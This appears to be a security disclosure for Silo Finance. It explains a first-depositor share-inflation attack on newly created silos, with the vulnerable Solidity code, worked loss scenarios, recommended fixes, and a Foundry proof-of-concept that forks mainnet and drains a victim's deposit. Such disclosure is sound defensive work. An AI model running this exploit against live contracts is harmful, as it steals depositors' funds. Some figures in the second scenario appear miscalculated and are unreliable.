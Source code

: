 # New silo creation can be backrun by a hacker who wants to become a first depositor and steal subsequent depositor's asset.

## Bug Description
Let's imagine a situation that new `Silo` is deployed by `SiloRepository.newSilo()` function.
A hacker can create a bot that watches memepool and backrun this tx with malicous deposit tx to become a first depositor.

https://github.com/silo-finance/silo-core-v1/blob/master/contracts/SiloRepository.sol#L415-L420
```solidity
    function newSilo(address _siloAsset, bytes memory _siloData) external override returns (address) {
        bool assetIsABridge = _bridgeAssets.contains(_siloAsset);
        ensureCanCreateSiloFor(_siloAsset, assetIsABridge);
        
        return _createSilo(_siloAsset, getVersionForAsset[_siloAsset], assetIsABridge, _siloData);
    }
```

When making a deposit, depositor's share is calculated as following.

https://github.com/silo-finance/silo-core-v1/blob/master/contracts/lib/EasyMath.sol#L9-L11
```solidity
    function toShare(uint256 amount, uint256 totalAmount, uint256 totalShares) internal pure returns (uint256) {
        if (totalShares == 0 || totalAmount == 0) {
            return amount;
        }

        uint256 result = amount * totalShares / totalAmount;

        // Prevent rounding error
        if (result == 0 && amount != 0) {
            revert ZeroShares();
        }

        return result;
    }
```

https://github.com/silo-finance/silo-core-v1/blob/master/contracts/BaseSilo.sol#L332-L340
```solidity
    function _deposit(
        address _asset,
        address _from,
        address _depositor,
        uint256 _amount,
        bool _collateralOnly
    )
        internal
        nonReentrant
        validateMaxDepositsAfter(_asset)
        returns (uint256 collateralAmount, uint256 collateralShare)
    {
        ...
        if (_collateralOnly) {
            collateralShare = _amount.toShare(totalDepositsCached, _state.collateralOnlyToken.totalSupply());
            _state.collateralOnlyDeposits = totalDepositsCached + _amount;
            _state.collateralOnlyToken.mint(_depositor, collateralShare);
        } else {
            collateralShare = _amount.toShare(totalDepositsCached, _state.collateralToken.totalSupply());
            _state.totalDeposits = totalDepositsCached + _amount;
            _state.collateralToken.mint(_depositor, collateralShare);
        }
        ...
    }
```

A malicious first depositor can `deposit()` with `1 wei` of asset token as the first depositor of the `Silo`, and get `1 wei` of shares.

Then the attacker can send `10000e18 - 1` of asset tokens to the silo and inflate the price per share from 1.0000 to an extreme value of 10000e18 ( from `(1 + 10000e18 - 1) / 1`) .

There are two sceanarios for future depositor

- If future depositor's deposit amount >= 10000e18, e.g 20000e18 - 1

```
returned share = `1 wei` (from `20000e18 - 1 / 10000e18`)

totalSupply = 2

asset balance = 30000e18 - 1

price per share = 15000e18

attacker' profit = 5000e18

victim's loss =  5000e18
```

- Future depositor's deposit amount < 10000e18, e.g 10000e18 - 1
```
returned share = `0 wei` (from `(10000e18 - 1) / 10000e18`)

silo's totalSupply = 1

asset balance = 20000e18 - 1

price per share = 25000e18 - 1

attacker' profit = 1000e18 - 1

victim's loss =  1000e18 - 1
```

## Impact

The attacker can profit from future users' deposits while the late users will lose part of their funds to the attacker.

## Recommendation
1) When creating new silo, make a small deposit for 0x0 address, it will make difficult for hackers to manipulate price.

https://github.com/silo-finance/silo-core-v1/blob/master/contracts/SiloRepository.sol#L415-L420
```solidity
    function newSilo(address _siloAsset, bytes memory _siloData) external override returns (address) {
        bool assetIsABridge = _bridgeAssets.contains(_siloAsset);
        ensureCanCreateSiloFor(_siloAsset, assetIsABridge);
        
        Silo createdSilo = _createSilo(_siloAsset, getVersionForAsset[_siloAsset], assetIsABridge, _siloData);
+       createdSilo.deposit(_siloAsset, 1000, address(0), false);
        return createdSilo;
    }
```

2) `BaseSilo._deposit()` Should check if newly minted share is non-zero.
https://github.com/silo-finance/silo-core-v1/blob/master/contracts/BaseSilo.sol#L332-L340
```solidity
    function _deposit(
        address _asset,
        address _from,
        address _depositor,
        uint256 _amount,
        bool _collateralOnly
    )
        internal
        nonReentrant
        validateMaxDepositsAfter(_asset)
        returns (uint256 collateralAmount, uint256 collateralShare)
    {
        ...
        if (_collateralOnly) {
            collateralShare = _amount.toShare(totalDepositsCached, _state.collateralOnlyToken.totalSupply());
+            require(collateralShare > 0, "Zero shares");
            _state.collateralOnlyDeposits = totalDepositsCached + _amount;
            _state.collateralOnlyToken.mint(_depositor, collateralShare);
        } else {
            collateralShare = _amount.toShare(totalDepositsCached, _state.collateralToken.totalSupply());
+            require(collateralShare > 0, "Zero shares");
            _state.totalDeposits = totalDepositsCached + _amount;
            _state.collateralToken.mint(_depositor, collateralShare);
        }
        ...
    }
```

## Proof of Concept
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

interface ISilo is IERC20 {
    function deposit(address _asset, uint256 _amount, bool _collateralOnly)
        external
        returns (uint256 collateralAmount, uint256 collateralShare);
    function withdraw(address _asset, uint256 _amount, bool _collateralOnly)
        external
        returns (uint256 withdrawnAmount, uint256 withdrawnShare);
}

interface ISiloRepository {
    function newSilo(address _siloAsset, bytes memory _siloData) external returns (address);
}

contract ContractTest is DSTest {
    CheatCodes  cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
    address     attacker = 0xAA061822B7975577c5E4810257427a5b08Ba4b38;
    address     victim = 0x210C9E1d9E0572da30B2b8b9ca57E5e380528534;
    address     siloRepository = 0xd998C35B7900b344bbBe6555cc11576942Cf309d;
    address     asset = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;

  function setUp() public {
    cheats.createSelectFork("mainnet", 17776926); 
  }

  function testExploit() public {
    uint256 withdrawnAmount;

    ISilo silo = ISilo(ISiloRepository(siloRepository).newSilo(asset, new bytes(0)));
    emit log_named_address("New silo", address(silo));

    cheats.startPrank(attacker);
    silo.deposit(asset, 1, false);
    IERC20(asset).transfer(address(silo), 10000 ether - 1);
    emit log("Attacker depsoit");

    cheats.startPrank(victim);
    silo.deposit(asset, 20000 ether - 1, false);
    emit log("Victim depsoit");

    cheats.startPrank(attacker);
    (withdrawnAmount, ) = silo.withdraw(asset, type(uint256).max, false);
    emit log_named_uint("Attacker withdrawn amount", withdrawnAmount);

    cheats.startPrank(victim);
    (withdrawnAmount, ) = silo.withdraw(asset, type(uint256).max, false);
    emit log_named_uint("Victim withdrawn amount", withdrawnAmount);
  }
}

```